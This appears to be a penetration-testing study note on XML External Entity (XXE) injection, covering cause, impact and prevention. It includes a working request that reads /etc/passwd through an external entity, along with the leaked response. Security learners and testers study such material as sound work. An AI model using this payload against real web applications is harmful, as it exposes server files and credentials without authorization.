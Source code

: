### Content
* [[#Overview]]
* [[#Local File Disclosure]]
	* [[#Read file contains some of XML's special characters]]
		* [[#Read PHP files using PHP wrapper]]
		* [[#Advanced Exfiltration with CDATA]] **(for any web application backend using XML Parameters entities)**
* [[#Remote Code Execution]]
	* PHP
* [[#Blind XXE]]
	* [[#Error Based XXE]]
	* [[#Out-of-band Data Exfiltration]] **(Fully blind)**
		* Manually
		* Automated
---
## Overview
[XML External Entity (XXE) Injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)
- **Cause**: 
	- Occurs when [[XML]] data is taken from a user-controlled input without properly sanitizing or safely parsing it.
- **Exploitation**: 
	- An attacker supplies malicious [[XML]] data containing external entity references.
- **Impact**:
    - File Disclosure
    - SSRF (Server-Side Request Forgery)
    - Denial of Service (DoS)
    - Remote Code Execution (RCE)
- **Prevention**:
    - Disable External Entity Processing: Configure XML parsers to ignore external entities.
    - Use Safer Parsers: Some parsers don’t support external entities by default.
    - Input Validation: Avoid parsing XML from untrusted sources if possible.

Some web applications may default to a JSON format in HTTP request, but may still accept other formats, including XML. So, even if a web app sends requests in a JSON format, we can try changing the `Content-Type` header to `application/xml`, and then convert the JSON data to XML with an [online tool](https://www.convertjson.com/json-to-xml.htm).
> [!CAUTION]
> XML is a case sensitive language `<!ENTITY email SYSTEM` != `<!ENTITY email system`.

---
## Local File Disclosure
* **Request**
``` HTTP
POST /submitDetails.php HTTP/1.1

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
<!ENTITY email SYSTEM "file:///etc/passwd">
]>
<root>
	<name>a</name>
	<tel>1</tel>
	<email>&email;</email>
	<message>123</message>
</root>
```
* **Response**
``` HTTP
HTTP/1.1 200 OK

Check your email root:x:0:0:root:/root:/bin/bash
```